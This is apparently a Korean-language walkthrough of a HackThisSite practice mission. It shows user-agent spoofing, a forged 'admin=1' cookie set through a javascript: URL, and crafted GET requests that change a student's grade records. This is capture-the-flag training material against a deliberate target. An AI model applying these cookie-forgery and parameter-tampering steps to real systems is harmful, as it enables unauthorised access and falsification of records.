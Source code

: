 접속한 브라우저 확인
```html
javascript:alert(navigator.userAgent)
```
- 익스플로러-도구-개발자도구-도구-사용자에이전트문자열변경-사용자지정-holy_teacher로 변경

이번에는 아래와 같은 메시지 나옴
- note:you are not an administrator so you cannot change grades

권한변경해주기
```html
javascript:document.cookie="admin=1;"
```
변경가능해졌음.

- submit grades

Sorry, Mrs. Samantha Miller, it is too late into the school year to change grades now.
- Change Grades의 소스보기에서바꿀 내용의 form 보고 get방식의 코드 작성해줌(post방식으로는 안됨)
```
#### GRADE1
http://www.hackthissite.org/missions/realistic/10/staff.php?action=changegrades&changeaction=modrec&rec=0&studentid=1&grade=5&comments=HACKED

#### GRADE2
http://www.hackthissite.org/missions/realistic/10/staff.php?action=changegrades&changeaction=modrec&rec=3&studentid=1&grade=5&comments=HACKED

해결 완료!
